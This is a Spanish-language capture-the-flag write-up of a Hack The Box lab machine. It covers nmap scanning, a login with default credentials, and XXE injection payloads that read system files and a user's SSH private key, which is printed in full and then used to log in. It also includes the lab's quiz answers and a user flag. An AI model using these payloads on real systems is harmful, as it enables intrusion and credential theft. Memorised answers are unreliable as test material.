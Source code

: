 1)¿Qué versión de Apache se está ejecutando en el puerto 80 del objetivo?
	2.4.41
	
2)¿Qué combinación de nombre de usuario y contraseña funciona correctamente?
	Admin:password

3)¿Cuál es la palabra en la parte superior de la página que acepta la entrada del usuario?
	order

4)¿Qué versión de XML se utiliza en el objetivo?
	1.0
	![[Markup8.png]]
	Esto lo saque del codigo fuente

5)¿Qué significa el acrónimo de ataque XXE / XEE?
	xml external entity
	Una **vulnerabilidad XXE** ocurre cuando una aplicación lee archivos XML y permite que se carguen datos externos. Esto puede hacer que un atacante lea archivos del sistema o envíe datos a servidores externos. Es un fallo de seguridad que puede exponer información sensible.

6)¿Qué nombre de usuario podemos encontrar en el código HTML de la página web?
	Daniel
	![[Markup9.png]]
	Tambien estaba la informacion en el codigo fuente
	
7)¿Cuál es el archivo ubicado en la carpeta Log-Management en el objetivo?
	job.bat
	Lo descubrimos listando el contenido del archivo C:\Log-Management/job.bat

8)¿Qué ejecutable se mencion a en el archivo antes citado?
	wevtutil.exe



------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.127.52
nmap -p- --open -vvv --min-rate 5000 -sS -n -Pn 10.129.127.52 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80,443 10.129.127.52 -oN target
```

![[Markup1.png]]

![[Markup2.png]]

![[Markup3.png]]

![[Markup4.png]]
*Ttl:* Maquina windows
*Puertos*
`22`SSH
`80`HTTP
`443`HTTPS

-----------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

```shell
whatweb http://10.129.127.52/
```

![[Markup5.png]]
```shell
nmap --script http-enum -p80,443 10.129.127.52 -oN webScan
```

![[Markup6.png]]
No nos da ninguna informacion relevante

-------
# Pagina principal
Necesitamos descubrir el usuario y contraseña
![[Markup7.png]]
Probando las contraseñas mas comunes dan las credenciales
Admin:password
https://cybernews.com/best-password-managers/most-common-passwords/

----------

# [[XXE (XML External Entity)]] y conexion por [[ssh]]

Interceptamos con burpsuite la peticion de la parte de ordenes de la pagina
![[Markup10.png]]

![[Markup12.png]]
Ahora vamos a cambiar la estructura del XML por lo que vimos en el [articulo de xxe payloadallthethings](https://gitlab.com/kalilinux/packages/payloadsallthethings/-/tree/kali/master/XXE%20Injection)
![[Markup14.png]]

Como estamos en una maquina linux, vamos a leer el archivo win.ini de prueba, en la parte que pusimos &test; lo hicimos por que el unico output que se muestra como se ve en la primera foto es el de esa etiqueta
```xml
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<order><quantity>test</quantity><item>&test;</item><address>test2</address></order>
```


![[Markup13.png]]

### Sacamos archivo de id_rsa
Como sabemos que existe el usuario daniel y esta activo el servicio de ssh por el puerto 22 como vimos antes con nmap
Vamos a ver si en su escritorio tiene las claves de ssh
```
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>test</quantity><item>&test;</item><address>test2</address></order>
```


```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEArJgaPRF5S49ZB+Ql8cOhnURSOZ4nVYRSnPXo6FIe9JnhVRrdEiMi
QZoKVCX6hIWp7I0BzN3o094nWInXYqh2oz5ijBqrn+NVlDYgGOtzQWLhW7MKsAvMpqM0fg
HYC5nup5qM8LYDyhLQ56j8jq5mhvEspgcDdGRy31pljOQSYDeAKVfiTOOMznyOdY/Klt6+
ca+7/6ze8LTD3KYcUAqAxDINaZnNrG66yJU1RygXBwKRMEKZrEviLB7dzLElu3kGtiBa0g
DUqF/SVkE/tKGDH+XrKl6ltAUKfald/nqJrZbjDieplguocXwbFugIkyCc+eqSyaShMVk3
PKmZCo3ddxfmaXsPTOUpohi4tidnGO00H0f7Vt4v843xTWC8wsk2ddVZZV41+ES99JMlFx
LoVSXtizaXYX6l8P+FuE4ynam2cRCqWuislM0XVLEA+mGznsXeP1lNL+0eaT3Yt/TpfkPH
3cUU0VezCezxqDV6rs/o333JDf0klkIRmsQTVMCVAAAFiGFRDhJhUQ4SAAAAB3NzaC1yc2
EAAAGBAKyYGj0ReUuPWQfkJfHDoZ1EUjmeJ1WEUpz16OhSHvSZ4VUa3RIjIkGaClQl+oSF
qeyNAczd6NPeJ1iJ12KodqM+Yowaq5/jVZQ2IBjrc0Fi4VuzCrALzKajNH4B2AuZ7qeajP
C2A8oS0Oeo/I6uZobxLKYHA3Rkct9aZYzkEmA3gClX4kzjjM58jnWPypbevnGvu/+s3vC0
w9ymHFAKgMQyDWmZzaxuusiVNUcoFwcCkTBCmaxL4iwe3cyxJbt5BrYgWtIA1Khf0lZBP7
Shgx/l6ypepbQFCn2pXf56ia2W4w4nqZYLqHF8GxboCJMgnPnqksmkoTFZNzypmQqN3XcX
5ml7D0zlKaIYuLYnZxjtNB9H+1beL/ON8U1gvMLJNnXVWWVeNfhEvfSTJRcS6FUl7Ys2l2
F+pfD/hbhOMp2ptnEQqlrorJTNF1SxAPphs57F3j9ZTS/tHmk92Lf06X5Dx93FFNFXswns
8ag1eq7P6N99yQ39JJZCEZrEE1TAlQAAAAMBAAEAAAGAJvPhIB08eeAtYMmOAsV7SSotQJ
HAIN3PY1tgqGY4VE4SfAmnETvatGGWqS01IAmmsxuT52/B52dBDAt4D+0jcW5YAXTXfStq
mhupHNau2Xf+kpqS8+6FzqoQ48t4vg2Mvkj0PDNoIYgjm9UYwv77ZsMxp3r3vaIaBuy49J
ZYy1xbUXljOqU0lzmnUUMVnv1AkBnwXSDf5AV4GulmhG4KZ71AJ7AtqhgHkdOTBa83mz5q
FDFDy44IyppgxpzIfkou6aIZA/rC7OeJ1Z9ElufWLvevywJeGkpOBkq+DFigFwd2GfF7kD
1NCEgH/KFW4lVtOGTaY0V2otR3evYZnP+UqRxPE62n2e9UqjEOTvKiVIXSqwSExMBHeCKF
+A5JZn45+sb1AUmvdJ7ZhGHhHSjDG0iZuoU66rZ9OcdOmzQxB67Em6xsl+aJp3v8HIvpEC
sfm80NKUo8dODlkkOslY4GFyxlL5CVtE89+wJUDGI0wRjB1c64R8eu3g3Zqqf7ocYVAAAA
wHnnDAKd85CgPWAUEVXyUGDE6mTyexJubnoQhqIzgTwylLZW8mo1p3XZVna6ehic01dK/o
1xTBIUB6VT00BphkmFZCfJptsHgz5AQXkZMybwFATtFSyLTVG2ZGMWvlI3jKwe9IAWTUTS
IpXkVf2ozXdLxjJEsdTno8hz/YuocEYU2nAgzhtQ+KT95EYVcRk8h7N1keIwwC6tUVlpt+
yrHXm3JYU25HdSv0TdupvhgzBxYOcpjqY2GA3i27KnpkIeRQAAAMEA2nxxhoLzyrQQBtES
h8I1FLfs0DPlznCDfLrxTkmwXbZmHs5L8pP44Ln8v0AfPEcaqhXBt9/9QU/hs4kHh5tLzR
Fl4Baus1XHI3RmLjhUCOPXabJv5gXmAPmsEQ0kBLshuIS59X67XSBgUvfF5KVpBk7BCbzL
mQcmPrnq/LNXVk8aMUaq2RhaCUWVRlAoxespK4pZ4ffMDmUe2RKIVmNJV++vlhC96yTuUQ
S/58hZP3xlNRwlfKOw1LPzjxqhY+vzAAAAwQDKOnpm/2lpwJ6VjOderUQy67ECQf339Dvy
U9wdThMBRcVpwdgl6z7UXI00cja1/EDon52/4yxImUuThOjCL9yloTamWkuGqCRQ4oSeqP
kUtQAh7YqWil1/jTCT0CujQGvZhxyRfXgbwE6NWZOEkqKh5+SbYuPk08kB9xboWWCEOqNE
vRCD2pONhqZOjinGfGUMml1UaJZzxZs6F9hmOz+WAek89dPdD4rBCU2fS3J7bs9Xx2PdyA
m3MVFR4sN7a1cAAAANZGFuaWVsQEVudGl0eQECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

Crear un archivo que se llame *id_rsa*, poner todo el contenido y darle permiso `chmod 400 id_rsa`

### Conexion por [[ssh]]

```
ssh -i id_rsa daniel@10.129.127.52 -p 22
```
![[Markup15.png]]

---
# Escalada de privilegios a root


![[Markup19.png]]


Ejecutamos una [[powershell]]










Con [[type]] podemos catear la flag de user.txt que esta en el escritorio del user daniel
![[Markup17.png]]
032d2fc8952a8c24e39c8f0ee9918ef7


------
# Notas

#### Si esta activo el servicio ssh, podemos buscar las credenciales en su directorio c:/users/daniel/.ssh/id_rsa
Para las id_rsa dar el permiso 400 `chmod 400 id_rsa`

--------
# Creditos
Writeup oficial HackTheBox